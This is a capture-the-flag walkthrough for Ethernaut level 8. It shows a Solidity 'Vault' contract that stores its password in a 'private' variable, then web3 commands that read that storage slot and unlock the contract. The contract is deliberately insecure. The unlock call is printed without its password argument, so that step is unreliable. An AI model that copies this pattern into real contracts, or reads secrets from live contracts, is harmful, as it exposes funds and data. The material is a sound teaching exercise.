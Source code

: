 # Level 8: Vault

This is the level 8 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Layout of state variables](https://docs.soliditylang.org/en/v0.8.10/internals/layout_in_storage.html) in Solidity
- [Reading storage](https://web3js.readthedocs.io/en/v1.5.2/web3-eth.html#getstorageat) at a slot in contract

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

`player` has to set `locked` to false.

Only way is by calling `unlock` by correct password.

Although `password` state variable is private, one can still read a storage variable by determining it's storage slot. Therefore sensitive information should not be stored on-chain, even if it is specified `private`.

Above, the `password` is at a storage slot of 1 in `Vault`.

Let's read it:

```javascript
password = await web3.eth.getStorageAt(contract.address, 1)
```

Call `unlock` with `password`:

```javascript
await contract.unlock()
```

Unlocked. Verify by:

```javascript
await contract.locked() === false
```

And that's it.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

